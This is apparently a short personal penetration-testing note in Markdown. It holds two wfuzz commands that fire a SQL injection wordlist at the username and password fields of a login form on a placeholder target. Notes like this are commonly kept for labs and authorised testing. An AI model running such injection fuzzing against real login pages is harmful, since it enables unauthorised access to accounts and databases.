 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=FUZZ&password=FUZZ” -u $TARGET
```

```bash - kali
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=admin&password=FUZZ” -u $TARGET
```

[[SQLText]]
